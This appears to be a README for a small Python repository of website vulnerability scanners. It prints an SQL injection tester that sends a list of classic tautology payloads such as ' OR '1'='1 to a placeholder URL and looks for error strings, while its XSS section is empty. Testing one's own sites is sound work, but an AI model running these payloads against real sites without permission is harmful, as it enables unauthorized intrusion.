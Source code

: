 ===========================================
<BR>
               SQL INJECTION
<BR>
===========================================
Define the URL of the target website:
<br>
url = "http://example.com/vulnerable_page.php"

Define a list of SQL injection payloads to test:
<br>
payloads = [
    "' OR '1'='1",
    "' OR '1'='1' -- ",
    "' OR '1'='1' /* ",
    "' OR 1=1-- ",
    "' OR 'a'='a",
    "' OR 'a'='a' -- ",
    "' OR 'a'='a' /* ",
    "1' OR '1'='1",
    "1' OR '1'='1' -- ",
    "1' OR '1'='1' /* "
]

Define a function to test for SQL injection:
<br>
def test_sql_injection(url, payloads):
    for payload in payloads:
        # Construct the full URL with the payload
        test_url = f"{url}?id={payload}"

        try:
            # Send the HTTP request
            response = requests.get(test_url)

            # Check if the payload is reflected in the response
            if "SQL" in response.text or "syntax" in response.text or "error" in response.text:
                print(f"Potential SQL injection vulnerability detected with payload: {payload}")
            else:
                print(f"Payload {payload} did not cause an SQL error.")
        except requests.exceptions.RequestException as e:
            print(f"An error occurred: {e}")

Call the function to run the test:
test_sql_injection(url, payloads)



===========================================
                   XSS
===========================================














SQLI.py & XSS.py the script for testing vulnerability on the website with python language.

You can run this script for testing the website with following step:

pip install requirements
<br>
chmod +x filename.py
<br>
python3 filename.py

put target url for checking vulnerable of SQL Injection



Happy Hacking..!!
